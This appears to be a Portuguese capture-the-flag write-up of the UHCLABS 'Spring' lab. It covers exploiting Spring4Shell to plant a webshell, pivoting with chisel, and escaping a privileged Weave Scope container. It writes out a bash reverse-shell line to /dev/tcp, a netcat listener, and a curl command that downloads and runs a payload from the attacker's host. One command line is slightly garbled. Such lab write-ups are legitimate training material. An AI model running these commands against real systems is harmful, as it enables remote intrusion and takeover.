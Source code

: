 ```yaml
---
title: Writeup Spring -UHCLABS
author: José Inácio
date: 2022-07-21
categories: [Writeup, UHCLABS]
tags: [Writeup, UHCLABS, CTF]
pin: true
---
```



Inicialmente foi realizada uma varredura de portas para o IP, em busca de serviços com versões expostas e que contenham vulnerabilidades publicas.

![Desktop View](/img/writeup/uhclabs/Spring/nmap.png){: width="700" height="202" .w-75 .normal}

Vendo as portas 80,8080 abertas, e foi realizado o acesso a ambas, e possível ver um site para porta 80, e uma mensagem de erro 404 na porta 8080

![Desktop View](/img/writeup/uhclabs/Spring/errorSpringboot.png){: width="700" height="202" .w-75 .normal}

O erro nos indica se tratar de um Spring boot, então buscamos realizar uma forca bruta de arquivos e diretórios neste host, foi possível identificar o arquivo teste que retorna um hello word ao ser acessado.

![Desktop View](/img/writeup/uhclabs/Spring/feroxbuster.png){: width="700" height="202" .w-75 .normal}

![Desktop View](/img/writeup/uhclabs/Spring/helloword.png){: width="700" height="202" .w-75 .normal}

Buscamos então por vulnerabilidade e foi possível encontrar o exploit publico de CVE 2022–22965 (Spring4Shell, SpringShell) que é uma vulnerabilidade no Spring Framework usa uma funcionalidade de vinculação de dados para vincular dados armazenados em uma solicitação HTTP a determinados aplicativos por um aplicativo.

O bug existe no método getCachedIntrospectionResults, que pode ser usado para obter não autorizados a tais objetos passando seus nomes de classe por meio de uma solicitação HTTP. Ele cria os riscos de vazamento de dados e execução remota de código de classes de objetos especiais são usados.

Para mais informações acesse o link abaixo:
<https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

Sabendo do que se trata podemos utilizar o exploit abaixo, que basicamente irá fazer um upload de uma webshell:
<https://github.com/lunasec-io/Spring4Shell-POC>

Executamos o exploit:

![Desktop View](/img/writeup/uhclabs/Spring/exploit.png){: width="700" height="202" .w-75 .normal}


Após ele ter feito o upload da webshell, podemos executar comandos remotamente no servidor

![Desktop View](/img/writeup/uhclabs/Spring/webshell.png){: width="700" height="202" .w-75 .normal}

Tentamos então “trigar” uma “reverse-shell”, criei um arquivo com o código

```bash   

    #!/bin/bash

    /bin/bash -c ‘sh -i >& /dev/tcp/ip-vpn/443 0>&1’
```

Deixei minha maquina executando na porta 443 com o ncat

```bash   
    nc -nvlp 443
```

Abri uma porta 80 com o SimpleHTTPServer do python

```bash   
    python2.7 -m SimpleHTTPServer 80
```
Utilizei o curl para fazer uma requisição para o nosso IP da vpn pegando a nossa payload e executando

```bash   
    curl http://ip-vpn/shell.sh -o /shell.sh

    sh /shell.sh
```

Recebemos a shell

![Desktop View](/img/writeup/uhclabs/Spring/shell.png){: width="700" height="202" .w-75 .normal}

Irei mudar de shell simples para um interativo

```bash   
    python3 -c “import pty;pty.spawn(‘/bin/bash’)”
    Ctrl+Z
    Write-Up — Spring8stty raw -echo;fg
    Enter
    export TERM=xterm

```

![Desktop View](/img/writeup/uhclabs/Spring/shellInterativo.png){: width="700" height="202" .w-75 .normal}


Depois foi só pesquisar a primeira flag(não vou evidenciar aqui, por basta somente procurar no host)

Para escalar lateralmente fizemos uma busca no host e foi possível identificar o IP do host 172.17.0.3

![Desktop View](/img/writeup/uhclabs/Spring/host.png){: width="700" height="202" .w-75 .normal}

Como o servidor não tem o nmap, podemos baixar um nmap estático e em seguida enviaremos para o servidor.

<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap>

![Desktop View](/img/writeup/uhclabs/Spring/curl.png){: width="700" height="202" .w-75 .normal}


Fizemos um namp na rede para buscar IP ativos, encontramos dois, vamos focar no 172.17.0.2

![Desktop View](/img/writeup/uhclabs/Spring/nmap-internal.png){: width="700" height="202" .w-75 .normal}


Realizamos um varredura nesse host e identificamos a porta 4040 aberta

![Desktop View](/img/writeup/uhclabs/Spring/nmap-internal-2.png){: width="700" height="202" .w-75 .normal}

fazendo uma requisição a esta porta podemos notar que se trata de uma aplicação web → Weave Scope, é uma ferramenta de visualização e monitoramento para Docker e Kubernetes Por padrão o Weave scope precisa subir em um docker privilegiado, sabendo disso podemos montar o disco do sistema principal dentro do docker do Weave scope.

![Desktop View](/img/writeup/uhclabs/Spring/requsicao.png){: width="700" height="202" .w-75 .normal}

Para realizar o pivoting vamos usar a ferramenta chisel

<https://github.com/jpillora/chisel>

No servidor iremos abrir uma porta 9000 e no cliente apontaremos a conexão do host 172.17.0.2 para essa porta, assim conseguimos acessa localmente.

![Desktop View](/img/writeup/uhclabs/Spring/openport.png){: width="700" height="202" .w-75 .normal}

![Desktop View](/img/writeup/uhclabs/Spring/port4040.png){: width="700" height="202" .w-75 .normal}

Podemos ver o terminal do Weave Scope, e com isso listar as partições.

![Desktop View](/img/writeup/uhclabs/Spring/terminalWeaveScope.png){: width="700" height="202" .w-75 .normal}


Agora podemos montar a partição na pasta mnt e ter acesso a flag

![Desktop View](/img/writeup/uhclabs/Spring/root.png){: width="700" height="202" .w-75 .normal}

obs: os ips podem estar diferente em prints pois houve a necessidade de restart do host